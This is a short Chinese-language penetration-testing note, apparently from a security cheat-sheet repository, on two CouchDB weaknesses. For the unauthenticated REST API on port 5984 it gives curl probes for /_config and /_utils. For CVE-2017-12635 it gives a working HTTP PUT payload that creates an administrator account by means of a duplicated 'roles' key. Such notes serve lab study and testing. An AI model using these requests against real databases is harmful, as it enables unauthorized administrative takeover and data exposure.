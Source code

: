 # 数据库
## CouchDB

`Apache CouchDB 是一个开源数据库，专注于易用性和成为"完全拥抱 web 的数据库"。它是一个使用JSON作为存储格式，JavaScript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。应用广泛，如 BBC 用在其动态内容展示平台，Credit Suisse 用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web 和应用程序）.`

**未授权访问漏洞**
- 简述

    默认会在 5984 端口开放 Restful 的 API 接口，如果使用 SSL 的话就会监听在 6984 端口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在 0.0.0.0，所有用户均可通过 API 访问导致未授权访问。

    在官方配置文档中对 HTTP Server 的配置有 WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

- 利用

    `http://[ip]:5984/_utils/`

    `curl http://[ip]:5984`

    `curl http://[ip]:5984/_config`

**CVE-2017-12635 垂直权限绕过漏洞**
- 简述

    CVE-2017-12635 是由于 Erlang 和 JavaScript 对 JSON 解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

- 影响版本
    - 小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp

    来源 : [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12635/README.md)
    ```
    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: your-ip:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
    "type": "user",
    "name": "vulhub",
    "roles": ["_admin"],
    "roles": [],
    "password": "vulhub"
    }
    ```
